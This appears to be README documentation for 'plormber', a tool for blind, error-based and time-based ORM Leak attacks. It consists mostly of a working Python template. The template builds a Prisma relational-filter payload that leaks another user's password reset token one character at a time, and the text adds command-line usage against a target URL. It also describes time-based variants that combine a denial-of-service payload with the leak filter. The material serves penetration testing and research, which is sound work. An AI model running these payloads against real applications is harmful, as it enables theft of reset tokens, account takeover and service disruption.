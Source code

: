 # Example Custom Blind/Error Based ORM Leak Attack

To create a custom attack, create a class that extends `plormber.attacks.base.BaseORMLeakAttack` and implement the following methods for your custom attack:

**Required**
- `create_payload`: Creates the ORM Leak payload
- `send_request`: How the ORM Leak request is sent to the target. **Use `self.request` for sending requests**.
- `was_success_result`: How to determine if a response was successful at leaking the next character.

**Optional**
- `add_options`: Add custom options for the `argparse.ArgumentParser`. **The argument names need to be the same in your `__init__` method.**
- `pre_checks`: Run any checks before attempting exploitation. Raise an `Exception` if a check fails.
- `handle_pre_check_fail`: How to handle a pre-check failure.

Below is an [example custom `plormber` attack](./examples/custom-attack/example-blind-attack.py) based on [basic relational filtering attack for `prisma`](https://www.elttam.com/blog/plormbing-your-prisma-orm/#basic-relational-filtering-attack).

```python
from argparse import ArgumentParser
from requests import Response

# Imports the base ORM Leak attack class
from plormber.attacks.base import BaseORMLeakAttack
# Imports the method for running the custom ORM Leak attack
from plormber.cli.run import run_custom_attack

class ExampleORMLeak(BaseORMLeakAttack):
    # Name of the attack
    command_name = "example-attack"
    # Description for the attack
    command_description = "Some description for the attack"

    def __init__(self, example_arg: str = '', **kwargs):
        """
            Initialises an attack instance
            Done by keyword arguments that are parsed from the command line

            Arg:
                example_arg: An example custom argument
                **kwargs: Command arguments for parent classes
        """
        # Pass off parent command arguments to the parent classes
        super().__init__(**kwargs)
        # Do stuff custom command arguments
        self.example_arg = example_arg


    @classmethod
    def add_options(cls, parser: ArgumentParser) -> ArgumentParser:
        """
            Add custom options for an attack using argparse.ArgumentParser
        """
        # Parse parent class arguments first
        parser = super().add_options(parser)

        # Add custom command arguments
        # IMPORTANT! The names of the command arguments have to be the 
        # same as the keyword arguments for __init__ 
        parser.add_argument(
            '--example-arg',
            help='An example custom argument',
            required=False,
            type=str
        )

        return parser


    def pre_checks(self):
        """
        Checks that are performed before exploitation.

        Add your checks here to verify an endpoint is vulnerable before exploiting.

        Raises:
            Exception: An exception if a pre-check failed
        """


    def handle_pre_check_fail(self, exception: Exception):
        """
        Handler for when a pre-check fails

        Args:
            exception: the raised exception
        """
        print("something goofed!")
        print(exception)


    def create_payload(self, test_value: str) -> list | dict | str:
        """
            Creates the ORM Leak payload to send to the target server

            Args:
                test_value: The string value to test if sensitive contains/starts with this value

            Returns:
                The payload to send to the target
        """
        # Example for https://www.elttam.com/blog/plormbing-your-prisma-orm/#basic-relational-filtering-attack
        payload = {
            "query": {
                "createdBy": {
                    "resetToken": {
                        "startsWith": test_value
                    }
                }
            }
        }
        return payload


    def send_request(self, payload: list | str | dict) -> Response:
        """
        How to send the request to the target instance
        IMPORTANT! Use self.request for sending requests

        Args:
            payload: The ORM Leak payload to send to the target

        Returns:
            A requests Response
        """
        # You can also do additional requests here if the ORM Leak oracle is observed in a
        # separate request than the request that sets the payload.
        #
        # A good example of this is https://github.com/HumanSignal/label-studio/security/advisories/GHSA-6hjj-gq77-j4qw

        # Example for https://www.elttam.com/blog/plormbing-your-prisma-orm/#basic-relational-filtering-attack
        return self.request('POST', self.target, json=payload)
    

    def was_success_result(self, resp: Response) -> bool:
        """
        Checks if the response indicated a successful attempt at leaking the next character

        Args:
            resp: The response from the request testing for a character

        Returns:
            True if the response indicated a hit
        """

        # Example for https://www.elttam.com/blog/plormbing-your-prisma-orm/#basic-relational-filtering-attack
        return len(resp.json()) > 0

# Runs the custom attack
if __name__ == "__main__":
    run_custom_attack(ExampleORMLeak)
```

## Usage

```
$ python3 example-blind-attack.py example-attack --help
usage: example-blind-attack.py example-attack [-h] [--requests-options REQUESTS_OPTIONS] [--chars CHARS] [-t THREADS] [-p DUMPED_PREFIX] [--example-arg EXAMPLE_ARG]
                                              target

Some description for the attack

positional arguments:
  target                target url

options:
  -h, --help            show this help message and exit
  --requests-options REQUESTS_OPTIONS
                        additional options for requests as a JSON string (e.g. {"headers":{"cookies":"nomnom"}}) (default: {})
  --chars CHARS         character list to use in search (default: abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~)
  -t THREADS, --threads THREADS
                        number of threads to use, but if doing a ORM time-based attack this would be the start number of threads threads (default: 5)
  -p DUMPED_PREFIX, --dumped-prefix DUMPED_PREFIX
                        known prefix for the dumped value (default: )
  --example-arg EXAMPLE_ARG
                        An example custom argument (default: None)
```

Using the previous example:

```
python3 example-blind-attack.py example-attack --chars '0123456789abcdef' http://127.0.0.1:9900/articles
```

---

# Example Time-based ORM Leak Attack

To create a custom time-based attack, create a class that extends `plormber.attacks.time.base.BaseTimeORMLeakAttack`. The `BaseTimeORMLeakAttack` extends the `plormber.attacks.base.BaseORMLeakAttack` class, so implement the above methods as explained in the previous section.

In addition, the `BaseTimeORMLeakAttack` requires the following methods to be implemented:

**Required**
- `build_dos_payload`: Builds the base time-based payload that would cause a time-delay when the next character is leaked.
- `add_orm_leak_payload`: Adds the leak filter to the DoS payload from `build_dos_payload`.


**Optional**
- `fit_params`: Fit parameters for performing the time-based attack. This is mainly for finding the maximum request size to cause the most significant time delay.

The [`prisma` contains attack](plormber/attacks/time/prisma/contains.py) is a good example to work from.